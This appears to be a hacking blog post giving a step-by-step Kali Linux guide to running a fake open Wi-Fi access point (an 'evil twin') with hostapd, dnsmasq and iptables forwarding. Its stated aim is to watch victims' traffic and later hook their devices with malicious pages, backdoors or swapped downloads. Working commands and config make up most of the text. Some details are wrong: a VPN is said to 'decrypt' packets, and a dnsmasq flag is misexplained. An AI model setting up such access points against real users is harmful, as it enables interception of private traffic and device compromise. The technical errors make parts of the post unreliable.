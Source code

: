 ```yaml
---
title: 'How To Start a Fake Access Point (Fake WIFI)?'
date: '2021-03-15'
lastmod: '2021-07-10'
tags: ['Networking', 'Hacking', 'guide']
draft: false
summary: 'If you are in a random place and happened to be connected to an open network, it doesnt matter what device you are connected with, your data will be visible to the person who is controlling the access point.'
images: ['/static/images/blog/05/01.png']
---
```


### How dangerous can an access point be?

If you are in a random place and happened to be connected to an open network, it doesn't matter what device you are connected with, your data will be visible to the person who is controlling the access point. Not only that, but the person in control can have a complete control over your device by hooking you with a malicious web page or a backdoor.

## How can you control the devices that are connected to your fake access point?

There are many methods to do that. You can redirect the connected user to a specific malicious website that you also control and hook their devices. Furthermore, you can run and execute backdoors by using python MITM scripts on the connected devices. You also can replace the download files that the connected users requests on the fly without being suspicious, we will be doing that in the next article.

- Lets take a look on how to start a fake AP…

#### STEP 1:

- First we will need to update Kali Linux to the latest version and install the required packages.

```
$ sudo apt-get update
$ sudo apt-get install hostapd dnsmasq apache2
```

#### STEP 2:

We need to put the wireless card in monitor mode to allow us to sniff the packets in and around the network. You can use this method:

```
$ ifconfig wlan0 down
$ iwconfig wlan0 mode monitor
$ ifconfig wlan0 up
```

- Or if that didn't work, you can use this method instead:

```
$ airmon-ng start wlan0
```

_Note_ that the wireless adapter's name has changed from wlan0 to wlan0mon, so we need to use the new given name which is wlan0mon.

#### STEP 3:

To make things organized and easier to work with, we will make a new directory in root and call it "FAP" or fake access point.

```
$ mkdir /root/fap
$ cd /root/fap
```

- · mkdir: command for making a new directory in linux.
- · cd: command to navigate to a specific directory, in this case its fap.

#### STEP 4:

Once we are in `/root/fap` that we created, we will now setup a new hostapd configuration file and write instructions inside. Hostapd (Host access point daemon) is a software access point that lets the user to use his/her wireless adapter to broadcast several access points at the same time.

```
$ nano hostapd.conf
```

- · nano: is a command line text editor included in most Linux installations.
- · hostapd.conf: is the name of the configuration file that we created.

- Now inside hostapd.conf, we need to setup instruction orders for it.

```
$ interface=wlan0mon
$ driver=nl80211
$ ssid=[Name of the Wifi]
$ hw_mode=g
$ channel=[Channel number]
$ macaddr_acl=0
$ ignore_broadcast_ssid=0
```

- After writing these instructions, press CTRL+X, then Y, then ENTER. Now we are all set for hostapd.conf.

- · interface: The name of the wireless adapter that we are using in monitor mode.
- · driver: The supported driver for hostapd.
- · ssid: The broadcasted Wifi name.
- · hw_mode=g : Simply instruct it to use 2.4GHz band.
- · channel: The channel number to use for the fake access point.
- · macaddr_acl=0: Tells hostapd to not use MAC filtering. [macaddr_acl=1] tells it to use MAC filtering.
- · ignore_broadcast_ssid=0 : To make the fake access point visible and not hidden.

#### STEP 5:

Start the fake access point by doing:

```
$ hostapd hostapd.conf
```

You will notice that our access point will appear as an open Wifi network. Now open a new terminal window without closing the previous one. In the new terminal window, navigate back to the fap directory by doing:

```
$ cd /root/fap
```

#### STEP 6:

We will be using dnsmasq for this step. Dnsmasq is a Dynamic Host Configuration Protocol (DHCP) server that is used to resolve dns requests from or to a machine and also acts as DHCP server to allocate IP addresses to the clients. It is fast and serves a great purpose that fits our needs. We will create a configuration file for dnsmasq and put some instructions in it, just like what we did previously with hostapd. To create the file:

```
$ nano dnsmasq.conf
```

Add these instructions inside:

```
$ interface=wlan0mon
$ dhcp-range=192.168.1.2, 192.168.1.30, 255.255.255.0, 12h
$ dhcp-option=3, 192.168.1.1
$ dhcp-option=6, 192.168.1.1
$ server=8.8.8.8
$ log-queries
$ log-dhcp
$ listen-address=127.0.0.1
```

- · dhcp-range: IP address range for the connected network clients. 12h is the amount of hours until the lease expires.
- · dhcp-option=3: Gateway IP for the networks.
- · dhcp-option=6: For DNS Server followed by IP address
- · server: DNS server's address
- · log-queries: Log the results of DNS queries handled by dnsmasq.
- · log-dhcp: Log all the options sent to DHCP clients and the tags used to determine them.
- · listen-address: Links the DHCP to the local IP address which is 127.0.0.1.

Press CTRL+X, then Y, then ENTER. Now we are all set for dnsmasq.conf.

#### STEP 7:

Now we need to assign the interface a network gateway and netmask and then add the routing table.

```
$ ifconfig wlan0mon up 192.168.1.1 netmask 255.255.255.0
$ route add -net 192.168.1.0 netmask 255.255.255.0 gw 192.168.1.1
```

Start the DNS server by doing:

```
$ dnsmasq -C dnsmasq.conf -d
```

- · dnsmasq -C: Specifies a different configuration file.
- · -d : Tells it to keep the user id without changing it.

Open a new terminal window to continue with the next step.

#### STEP 8:

To provide the users with internet access, we need to forward traffic from eth0, the virtual wireless adapter that is connected to the internet, to wlan0mon. This will help you perform various attacks that can give you complete access to the user's device. If you don't want the users to have internet access, skip this step.

```
$ iptables --table nat --append POSTROUTING --out-interface eth0 -j MASQUERADE
$ iptables --append FORWARD --in-interface wlan0mon -j ACCEPT
```

- · First command: Interface name that is used to forward traffic from.
- · Second command: Interface name to receive the packets or the interface that is being forwarded to.

Now execute this command to enable IP Forwarding:

```
$ echo 1 > /proc/sys/net/ipv4/ip_forward
```

#### STEP 9:

Test out your fake access point by playing the victim. Connect to your network and access any website you like, you should be able to see all the packets transmitted on the fly in the terminal.

Hostapd will show the mac address as soon as a device has connected to the network.

On the other terminal window where dnsmasq is running, you will find out what the device is trying to access in details. For this example, the user is accessing Facebook.com

For this example, the user is accessing Facebook.com and so on.

## Closure:

This shows how powerful a fake access point can be. Once you got your targets connected, you will have many attacks available that could eventually control the user's device.

Setting up a fake access point can teach you the security of the network, and how a network typically works. It will also show you what the person in control of the network can do with the connected devices. As we saw previously, you can pretty much have access to all the packets that the user's device is requesting.

If you happen to be connected to a public and unsecure network, A simple way to solve and protect yourself is to use a reputable VPN. A VPN will decrypt the packets making it impossible for the person controlling the network from seeing what the user is accessing.
